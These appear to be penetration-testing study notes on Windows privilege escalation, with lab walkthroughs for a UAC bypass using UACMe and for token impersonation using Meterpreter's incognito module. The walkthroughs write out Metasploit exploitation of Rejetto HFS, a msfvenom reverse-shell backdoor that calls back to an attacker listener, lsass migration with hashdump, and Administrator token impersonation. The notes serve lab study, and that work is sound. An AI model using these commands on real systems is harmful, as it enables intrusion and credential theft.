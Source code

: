 ### Windows Privilege Escalation
Kernel is a computer program that is the core of an operating systems and has complete control over every resource and hardware on a system it acts as a translation layer between hardware and software and facilitates the communication between these two layers

- User Mode : Programs and services running in user mode have limited access to system resources and functionality
- Kernel Mode :Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory

### Bypassing UAC with UACMe
User account control (UAC) is a windows security feature introduced in windows vista that is used to prevent unauthorized changes from being made to the operating system 

it ensures that changes to the operating system require approval from the administrator or a user account that is part of the local administrator group 

attacks can bypass UAC in order to execute malicious executable with elevated privileges 

- u will need to have access to a user account that is a  part of a local administrators group in the windows target system (tools and techniques will depend on the version of windows running on the target)
(UACMe is an open source robuse privliege escalation tool developed by @hfire0x it can be used to bypass windows uac by laveraging various techniques )

#### UAC Bypass: UACMe Lab
check the target ip
- cat /root/Desktop/target
run nmap scan against  the target ip
- nmap ip
nmap version scan on the target ip
- nmap -sV -p80 ip
search exploit by using searchsploit module
- searchsploit hfs
run rejetto http file server is vulnerable to RCE with meterpreter session
- msfconsole 
- use exploit/windows/http/rejetto_hfs_exec
- set RHOSTS ip
- exploit
check the current user > admin user
- getuid
- sysinfo
migrate the process in explorere.exe with PID number
- ps -S explorer.exe
- migrate (PID number)
elevate to the high privilege (u could see u don`t have permission to elevate privileges)
- getsystem
get windows shell
- shell
- net localgroup administrators
generate malicious executable using msfvenom and running it on the target machine to gain administrator use privlieges
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe > 'backdoor.exe'
- the tool located in /root/Desktop/tools/UACME
- CTRL + C
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/Desktop/tools/UACME/Akagi64.exe .
upload /root/backdoor.exe .
ls

- msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.1.3
set LPORT 4444
exploit
- shell
- ps -S lsass.exe
- migrate (PID number)
- hashdump

### Access Token Impersonation
windows access tokens are core elements of the authentication process on windows and are created and managed by the local security authority subsystem service (LSASS)

- windows access token is responsible for identifying and describing the security context of a process of thread running on a system simply put an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed

- impersonate level-tokens : are created as a direct result of non interactive login on windows typically through specific system services or domain logons

- delegate level tokens are typically created through an interactive login on windows primarily  through a traditional login or through remote access protocols such as RDP 
- impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token
- delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system

Windows Privileges
the process of impersonating access tokens to elevate privileges on a system will primarily depends on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available

- SeAssignPrimaryToken : this allow user to impersonate tokens
- SecreateToken : this allow a user to create an arbitrary token with administrative privileges
- SelmpersonatePrivilege : this allow a user to create a process under the security context of another user typically with administrative privileges

incognito module is a buit-in meterpreter module that was originally a standalone application that allow you to impersonate user tokens after successful exploitation


#### Privilege Escalation: Impersonate Lab
	nmap ip
	nmap -sV -p80 ip
	searchsploit hfs
	msfconsole -q
	use exploit/windows/http/rejetto_hfs_exec
	set RHOSTS ip
	exploit
	getuid
	cat C:\\Users\\Administrator\\Desktop\\flag.txt
	load incognito
	list_tokens -u
	impersonate_token ATTACKDEFENSE\\Administrator 
	getuid
	cat C:\\Users\\Administrator\\Desktop\\flag.txt
	